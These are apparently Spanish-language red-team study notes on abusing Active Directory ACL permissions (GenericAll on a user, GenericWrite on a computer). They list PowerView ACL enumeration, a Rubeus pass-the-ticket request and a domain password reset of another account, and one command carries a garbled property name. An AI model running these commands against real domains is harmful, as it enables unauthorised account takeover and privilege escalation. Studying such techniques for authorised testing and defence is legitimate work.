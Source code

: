 ## GenericAll sobre usuario

```powershell
❯ import-module .\Microsoft.ActiveDirectory.Management.dll  # Usar comandos como "Get-NetUser, Get-DomainUser, Get-ADUser y se filtra con '*'"

❯ Get-ADUser -Identity "userall.user"   # Identificar al usuario que tiene los permisos de 'GenericAll'

❯ $user = Get-ADUser -Identity "userall.user"   # Creamos una variable con el objeto 
❯ $user.SID                                     # Llamamos al SID del objeto 

❯ $SID = Convert-NameToSid userall.user         # Convertimos el nombre del objeto 'usuario' a su SID
❯ $SID                                          # Llamamos al SID del objeto 'usuario'

❯ Get-ObjectAcl -SamAccountName userwrite.user -ResolveGUIDs | Where-Object{$_.ActiveDirectoryRights -eq "GenericAll" -and $_.SecurityIdentifier -eq $SID } | select AceType,ActiveDirectoryRights,ObjectDN | fl  # Enumeramos ACL 

# Otra forma de hacerlo 
❯ Get-ObjectAcl -SamAccountName userwrite.user -ResolveGUIDs | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier);$_} | ?{$_.IdentityName -match 'userall.user'} | select AceType,IdentityName,ActiveDirectoryRights,ObjectDN | fl 

❯ ./Rubeus.exe asktgt /user:userall.user /password:Password@1 /ptt  # Solicitamos el TGT con la password haciendo Pass-The-Ticket

❯ klist         # Mirar todos los tickets que se encuentran para los diferentes servicios 
❯ klist purge   # Eliminar los tickets que estan en cache

❯ net user userwrite.user P4ssw0rd /domain    # Cambiar la password al usuario 'userwrite.user'
```

## GenericWrite sobre computador

* [Abusin-AD-ACLs-ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
* [HackTricks-Abusing-AD-ACLs-ACE](https://book.hacktricks.xyz/es/windows-hardening/active-directory-methodology/acl-persistence-abuse)

```powershell
❯ $user = Get-ADUser -Identity "compwrite.user"    # Creamos una variable con el objeto 'usuario'
❯ $user.SID                                        # Ver el atributo SID del objeto 'usuario'


❯ Get-ObjectAcl -SamAccountName First-DC -ResolveGUIDs | ?{$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq "S-1-5-21-1861162130-2580302541-221646211-1124" } | select AceType,ActiveDirectoryRights,ObjectDN | fl

# Otra forma de poner el SID pero antes se debe agregar a la variable convertido 
❯ Get-ObjectAcl -SamAccountName First-DC -ResolveGUIDs | ?{$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq $SID } | select AceType,ActiveDirectoryRights,ObjectDN | fl
```